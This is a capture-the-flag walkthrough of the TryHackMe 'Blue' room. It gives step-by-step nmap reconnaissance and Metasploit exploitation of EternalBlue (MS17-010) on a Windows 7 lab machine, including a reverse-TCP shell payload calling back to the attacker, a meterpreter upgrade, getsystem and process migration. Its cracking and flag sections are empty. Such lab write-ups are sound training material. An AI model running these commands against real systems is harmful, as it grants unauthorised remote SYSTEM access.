 # 🧠 TryHackMe Room: Blue 

**Room URL:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)  
**Author:** Schenkee  
**Profile:** [https://tryhackme.com/p/schenkee](https://tryhackme.com/p/schenkee)  

---

## 🧩 Challenge Task Overview

**Objective:**   
This guide will cover the steps required to gain the answer to all question in the Blue room which focuses on the EternalBlue vulnerability in SMB and is the conclusion to the Metasploit module. 

---

## 🧰 Tools I Used  
- nmap
- Metasploit
- Hashcat

---

Firstly, let’s start our target machine and give it a few minutes to start all relevant services. I am using the TryHackME AttackBox lets start this up as well, or alternatively as in my case connect to the TryHackMe VPN to use your own attacking machine. You can even download the VM for offline usage if required.

---

## 🛠️ Recon: 
First let us start with a straightforward nmap scan to see which ports are open and what possible path we have into the target machine.  

We will run nmap via the following ```sudo nmap -sS TARGET_IP```   
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.  

This should return the below information.  
![Recon - Nmap](./Images/Recon%20-%20Nmap.png)  
This will give us enough information to answer the first question: **How many ports are open with a port number under 1000?**  

Now we can see that port 445 is open which is the default port used for Server Message Block (SMB) protocol. SMB is the protocol which is vulnerable to Eternal Blue in certain windows versions. But let’s run another Nmap scan to see if we cannot find anything further to verify that this port is indeed vulnerable.  

We can run a nmap version scan and default scripts against the target port to see if we can return any further useful information.  

This can be done via ```sudo nmap -sS -sV -sC TARGET_IP -p 445```
#### ⚙️ **Options**  
**sudo** We need to run this command as a privileged user otherwise it will perform a 3-way-handshake and be a TCP Connect Scan -sT.  
**-sS** Tells Nmap to perform a TCP SYN Scan.   
**-sV** Tells Nmap to perform a version scan to detect service versions on each port.  
**-sC** Tells Nmap to perform run default scripts on the target.    
**-p** Tells nmap which port to scan. In this case we only need to scan port 445    

This should result in the below output.  
![Recond - Nmap -sV](./Images/Recon%20-%20Nmap%20-sV.png)  
This has returned some very good information namely the OS details. We can see that the system is running ***Windows 7 Professional 7601 Service Pack 1***

Let’s do a google search for any vulnerabilities which might be affecting smb on ***Windows 7 Professional 7601 Service Pack 1*** and as we might be expected we get some good results back confirming that our target is vulnerable to CVE-2017-0144 Eternal Blue.  
![Recond - Google](./Images/Recon%20-%20Google.png)  
We can also see some results returned on ExploitDB  
![Recond - ExploitDB](./Images/Recon%20-%20ExploitDB.png)  
This provides us the answer to the next and final question for the Recon section: ***What is this machine vulnerable to?***  

This concludes our required Reconnisance for the room and we can now move on to gain access to the target machine.

---

## 🛠️ Gain Access: 
In the Recon section we identified that the target machine is vulnerable to MS17_010 aka EternalBlue. 

So, let’s start up Metasploit using ```msfconsole```  

Now let’s see if there are any relevant modules available to us via ```search ms17-010``` this will bring back the below results.  
![Gain Access - search](./Images/Gain%20Access%20-%20search.png)  
In this instance we can use the first result, to load this module type ```use 0```  

This will also now provide us with the answer to our first question in this section: **Find the exploitation code we will run against the machine. What is the full path of the code?**  

Now that we have loaded this module we will need to configure a couple of items. Firstly, lets view our options via ```show options```  
![Gain Access - Initial options](./Images/Gain%20Access%20-%20Initial%20options.png)  
The items we will need to change are **RHOSTS**, **LHOST** and the **Payload**  Noting that only the **RHOSTS** is empty and required to be set for the module. The **LHOST** is part of the payload options.  

Do this via the following commands  
```set RHOSTS TARGET_IP```  
```set LHOST YOUR_MACHINE_IP```  
```set payload windows/x64/shell/reverse_tcp```  

This should give you the information to answer the next question: **Show options and set the one required value. What is the name of this value?**  

Now we can view our options again via ```show options``` and confirm our remote and local host IPs are correct and that our payload has been adjusted as required.  
![Gain Access - options final](./Images/Gain%20Access%20-%20options%20final.png)  

Once everything is set, we can type in ```run``` or ```exploit``` to start the attack on the target machine.  This may take a minute to complete and once done you should have access to the target machine.  
![Gain Access - Esxploit](./Images/Gain%20Access%20-%20Exploit.png)  

Lastly, we can now background this session via ```CTRL + Z``` to proceed onto the next phase of the attack where we will escalate our shell to a meterpreter session.  

To confirm the session has been backgrounded and is still active we can type in ```sessions -i``` into the main msfconsole.  
![Gain Access - Background](./Images/Gain%20Access%20-%20Background.png)  

---

## 🛠️ Escalate: 

Now lets work on gaining a meterpreter session.   

Firstly we will need to load the post exploit module via the following command  ```use post/multi/manage/shell_to_meterpreter```  
![Escalate - Meterpreter](./Images/Escalate%20-%20Meterpreter.png)
This will also provide you the anser to the first question in this section of the room: **What is the name of the post module we will use?**

Once this module has been loaded lets view the options via ```show options``` here we can see that there is one **Required** empty option we need to update.  
This will also provide you the answer to the next question: **Show options, what option are we required to change?**

To set this option input ```set session SESSION_NUMBER``` you can view the your active sessions via ```sessions -i``` and the session number to use is that of the standard shell on the target system. In my case this is session 1.  
![Escalate - Meterpreter Options set](./Images/Escalate%20-%20Meterpreter%20Options%20set.png)  

Once the options have been set input ```run``` to start the module and if all has worked after a minute or so you should have an active meterpreter session.  
This can be confirmed with ```sessions -i``` where there should now be two active sessions on the target.  
![Escalate Meterpreter sessions](./Images/Escalate%20Meterpreter%20sessions.png)

Now follow the guide and confirm the session is running as **SYSTEM** via the ```getsystem``` command and as below it is confirmed the session is already running as **SYSTEM**
![Escalate - System command](./Images/Escalate%20-%20System%20command.png)

Lastly the guide mentions to migrate to a different process ID. Firstly input ```ps``` to list all running system processes which will provide the **PID** which is used to identify running system processes. This can be useful if the process meterpreter is running as does not have **SYSTEM** privileges.  

It is also worth to check which process the session is actually running as which can be done via ```getpid``` this will provide the running meterpreter session pid and help aid understanding if migration is needed or not. But for the sake of following the guide lets migrate to a different process using ```migrate PID``` 
![Escalate - Pid and Migrate](./Images/Escalate%20-%20Pid%20and%20Migrate.png)  
This may sometimes return errors in which case try a different pid.

Now we have gained access to the target machine and escalated to a meterpreter session, its time to get some information out of the system.

---

## 🛠️ Cracking: 


---

## 🛠️ Find flags!: 


---

## 🧠 Takeaways  
 

---

Thank you for following through my guide of the TryHackMe Blue.  
